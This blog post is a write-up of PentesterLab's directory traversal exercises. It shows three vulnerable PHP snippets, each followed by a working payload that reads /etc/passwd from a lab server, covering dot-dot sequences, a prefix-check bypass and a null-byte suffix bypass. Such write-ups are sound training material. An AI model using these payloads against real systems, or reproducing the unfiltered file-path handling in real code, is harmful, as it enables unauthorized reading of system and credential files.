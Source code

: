 ```yaml
---
layout: post
title: "PentesterLab -- Web for Pentester - Directory Traversal"
date: 2016-03-11 16:13:32 -0500
comments: true
categories: [pentesterlab, directory traversal, web pentest]
---
```


Web for Pentester directory traversal:
    This exercise is a set of the most common web vulnerabilities 

Difficluty: 1/5
<!--more-->

Tool: Burp Suite
	  Firebug

###Example 1

code review:

```php example1.php
<?php 

$UploadDir = '/var/www/files/'; 

if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

$path = $UploadDir . $file;

if (!is_file($path))
	die();
...

```
The developer does not filter `$file = $_GET['file'];`, so that I can just use `file=../../../../../../../../etc/passwd` to get `etc/passwd`

manual exploit:

`http://192.168.79.162/dirtrav/example1.php?file=../../../../../../../../etc/passwd`

Burp exploit:

[![burp dir trav](http://i.imgur.com/7YTMFQp.png)](https://vimeo.com/159110994 "Click to Watch")


### Example 2

code review:

```php example2.php

<?php 


if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

if (!(strstr($file,"/var/www/files/")))
	die();

if (!is_file($file))
	die();
	...
```
The developer tried to filer file by using `/var/www/files/`, so if I just use `file=etc/passwd` wont't work. However I can use `file=/var/wwww/files/../../../../../etc/passwd` to get passwd file.

manual exploit:

`http://192.168.79.162/dirtrav/example2.php?file=/var/www/files/../../../../etc/passwd` 


###Example 3

code review:

```php example3.php
if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

$path = $UploadDir . $file.".png";
// Simulate null-byte issue that used to be in filesystem related functions in PHP
$path = preg_replace('/\x00.*/',"",$path);

if (!is_file($path))
	die();
	...
```
 The server-side code adds its own suffix (.png) to your payload. This can be easily bypassed, by using a NULL BYTE (which you need to URL-encode as %00). Using NULL BYTE to get rid of any suffix added by the server-side code is a common bypass. When this path is passed to the filesystem, the null byte character effectively tells the filesystem to ignore anything that comes after it. When the path is resolved by the filesystem, it interprets the directory traversal vulns and transforms ‘/var/www/files/../../../etc/passwd%00’ into ‘/etc/passwd’. 

manual exploit:

`http://192.168.79.162/dirtrav/example3.php?file=../../../../etc/passwd%00`

####reference
[Directory Traversal](https://www.fishnetsecurity.com/6labs/blog/common-web-application-vulnerabilities-part-6) 


